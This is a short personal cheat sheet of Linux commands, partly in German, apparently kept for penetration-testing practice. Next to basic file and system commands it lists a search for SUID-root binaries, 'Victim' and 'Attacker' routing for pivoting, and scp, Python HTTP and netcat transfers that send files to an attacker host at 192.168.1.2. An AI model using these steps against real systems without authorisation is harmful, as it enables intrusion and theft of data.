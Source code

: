 ## Useful Commands I don't know:
### Files:

```bash
# Klartextsuche
find / -iname "test" -type f/d/l/s
```

```bash
# Pipes:
# ------
# Überschreibung:
echo "hey" > test.txt
# Anhängen:
echo "hey" >> test.txt
```

```bash
# Suche in Dateien
grep -i "text" .bash_history
```

```bash
# Unterschied zwischen 2 Dateien
comm test_1.txt test_2.txt
vim -d
```

```bash
# Ausgabe ersten Zeilen
head -n 3
```

```bash
# Ausgabe letzten Zeilen
tail -n 3
```

```bash
# Find files with SUID bit set:
find / -user root -perm -4000 -print 2>/dev/null | head -20
```

### Movement:
```bash
# Save temp a folder location
pushd

# Move around
cd .. (And so on)

# When you want to go back
popd
```

### System information:

```bash
# Finden von Programmen
which

# Aktueller User
whoami
```

```bash
# Kernel Version
uname -a

cat /etc/issue
```

```bash
# Rechte von user
id
```
### Network information

```bash
# See open ports
netstat -alnu

netstat -tulpen
```

Add Gateway (if subnet is not reachable). The host 192.168.1.2 can reach 192.168.1.1 (The proxied Webserver) but not 192.168.2.0/24 and therefore not 192.168.2.2 (The machine):
```bash
# Victim:
ip route add 192.168.1.2 via 192.168.1.1

# Attacker:
ip route add 192.168.2.2 via 192.168.1.1
```

```bash
# See all open connections
lsof -ai -p "$pid"
```

```bash
# Find IP for Domain
nslookup domain.local

whois domain.local
```
## File Transfer:

#### SCP:

Step 1: Enable SSH on Attacker
```bash
sudo apt update

sudo apt install openssh-server

sudo systemctl start ssh

sudo systemctl enable ssh
```

Step 2: Download file via SCP:
```bash
scp file.txt kali@192.168.1.2:/home/kali
```


(Upload):
```bash
scp kali@192.168.1.2:/home/kali/file.txt
```

#### Python:

Step 1: HTTP Server on Attacker (or victim if upload):
```bash
python -m http.server 9000
```

Step 2: Download file:
```bash
wget 192.168.1.2:9000/file.txt
```

#### NC:

Step 1: Create listener on receiver:
```bash
nc -lvnp 4444 > file.txt
```

Step 2: Send file:
```bash
nc 192.168.1.2 4444 < file.txt
```